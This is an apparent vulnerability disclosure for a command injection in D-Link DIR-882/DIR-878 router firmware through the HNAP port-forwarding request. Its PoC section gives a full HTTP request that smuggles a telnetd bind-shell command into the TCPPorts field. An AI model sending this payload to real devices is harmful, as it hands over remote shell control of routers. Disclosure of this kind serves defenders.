

# D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.(need authentication).

**Remote Command Execution**

In `prog.cgi` binary:

In `SetPortForwardingSettings` function,`LocalIPAddress、TCPPorts、UDPPorts` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"></div>

In `librcm.so` binary:

In `PORTFORWARD_run` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>


## PoC

We set `TCPPorts` as **$(telnetd `printf '\x2D'`l sh `printf '\x2D'`p 1117 `printf '\x2D'`b 0.0.0.0)** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 733
SOAPACTION: "http://purenetworks.com/HNAP1/SetPortForwardingSettings"
HNAP_AUTH: 49D4B529B81589A4B9F346D552710226 1727332085412
Accept: text/xml
Content-Type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/PortForwarding.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=A3pyCzQ1
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetPortForwardingSettings>
			<PortForwardingList>
				<PortForwardingInfo>
					<Enabled>true</Enabled>
					<PortForwardingDescription>1</PortForwardingDescription>
					<TCPPorts>$(telnetd `printf '\x2D'`l sh `printf '\x2D'`p 1117 `printf '\x2D'`b 0.0.0.0)</TCPPorts>
					<UDPPorts>2000</UDPPorts>
					<LocalIPAddress>192.168.100.100</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</PortForwardingInfo>
			</PortForwardingList>
		</SetPortForwardingSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"></div>


## Result

Get a shell!

<div  align="center"></div>
